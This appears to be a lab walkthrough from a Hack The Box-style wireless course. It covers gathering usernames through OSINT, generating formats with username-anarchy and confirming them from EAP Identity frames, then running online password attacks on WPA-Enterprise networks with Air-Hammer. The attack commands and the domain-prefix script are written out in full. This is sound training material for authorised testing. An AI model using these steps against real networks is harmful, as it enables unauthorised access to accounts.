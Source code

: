 # Chain #15: Username Generation for WPA‑Enterprise

## Goal & Scope

Build high‑quality username lists for **WPA‑Enterprise (802.1X/EAP)** attacks:

- Gather names via OSINT (social media, metadata).
    
- Generate permutations with **username‑anarchy** (formats, countries, recognition).
    
- Confirm account format from EAP **Response/Identity** frames.
    
- Normalize usernames with domain prefix for attack tools.
    
- Execute online auth attempts with **Air‑Hammer**.
    

---

## Step 1 — Recon: Collect Names

**Social media mining** (e.g., LinkedIn) and **metadata extraction** (e.g., FOCA) reveal real‑world names used by the org. Save them to a plain list (e.g., `user-names.txt`).

---

## Step 2 — Generate Usernames (username‑anarchy)

Produce permutations from a name:

```bash
./username-anarchy David Smith
```

Sample output:

```
david
davidsmith
david.smith
…
dsmith
smith.david
```

List all supported formats:

```bash
./username-anarchy --list-formats
```

You’ll see plugin names like `first.last`, `f.last`, `lastf`, etc.

Generate by country conventions (plus common given/surnames):

```bash
./username-anarchy --country france --auto
```

Recognize an existing username’s format:

```bash
./username-anarchy --recognise j.smith
# → Plugin name: f.last
```

---

## Step 3 — Confirm Format from EAP Identity

Capture the EAP handshake (e.g., with a targeted connection attempt) and inspect in Wireshark. Look for **EAP → Response, Identity** to find `DOMAIN\username` (e.g., `HTB\cindy.walker`). Then:

```bash
./username-anarchy --recognise cindy.walker
# → Plugin name: first.last
```

Now you know the canonical format to use.

---

## Step 4 — Normalize an Entire List to One Format

Convert a raw names list into the identified format:

```bash
./username-anarchy --input-file ./user-names.txt --select-format first.last
# → sophia.rose, cindy.walker, …
```

Save to `usernames.txt`.

Prepend the **domain** (required by many WPA‑Enterprise realms):

```bash
#!/bin/bash
input_file="usernames.txt"
output_file="formatted_usernames.txt"
domain="HTB"
while IFS= read -r line; do
  echo "${domain}\\${line}" >> "$output_file"
done < "$input_file"
```

This produces lines like `HTB\sophia.rose` for attack tools.

---

## Step 5 — Perform Online Auth Attempts (Air‑Hammer)

Run against an SSID with your username list and a password wordlist:

```bash
python2 /opt/air-hammer/air-hammer.py \
  -i wlan1 -e HTB-Corp \
  -p /opt/wordlist.txt \
  -u formatted_usernames.txt
```

Target a specific user:

```bash
echo "HTB\sophia.rose" > user.txt
python2 /opt/air-hammer/air-hammer.py -i wlan1 -e HTB-Corp -p /opt/wordlist.txt -u user.txt
```

**Tip:** Use a **throttled** wordlist and respect legal/engagement constraints. Online attacks are noisy.

---

## Checklist

1. Mine names via OSINT and file metadata → `user-names.txt`.
    
2. Use `--recognise` or EAP Identity to confirm format.
    
3. Generate permutations with username‑anarchy; normalize with `--select-format`.
    
4. Prepend `DOMAIN\` to each username.
    
5. Test with Air‑Hammer (or similar EAP attack tooling).
    
